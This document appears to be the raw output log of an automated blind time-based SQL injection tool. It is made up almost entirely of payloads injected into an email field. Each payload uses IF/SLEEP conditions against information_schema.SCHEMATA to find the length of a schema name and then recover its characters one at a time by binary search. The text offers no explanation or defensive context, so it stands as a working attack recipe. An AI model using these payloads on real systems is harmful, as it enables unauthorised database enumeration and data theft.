 Value: information_schema



Determinating number of characters in the field: SCHEMA_NAME

{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 1,1 )=1,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 1,1 )=2,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 1,1 )=3,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 1,1 )=4,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT LENGTH(SCHEMA_NAME) FROM information_schema.SCHEMATA LIMIT 1,1 )=5,SLEEP(0.122010510204),SLEEP(0)) -- -}

Field length: 5


Determinating values of field: SCHEMA_NAME

{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>104,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=108,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>108,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=110,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>110,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,1,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=109,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>64,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>96,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>112,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=120,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )>120,SLEEP(0.122010510204),SLEEP(0)) -- -}
{email: arthur@guide.com' AND IF((SELECT ORD(MID(SCHEMA_NAME,2,1)) FROM information_schema.SCHEMATA  LIMIT 1,1 )=124,SLEEP(0.122010510204),SLEEP(0)) -- -}
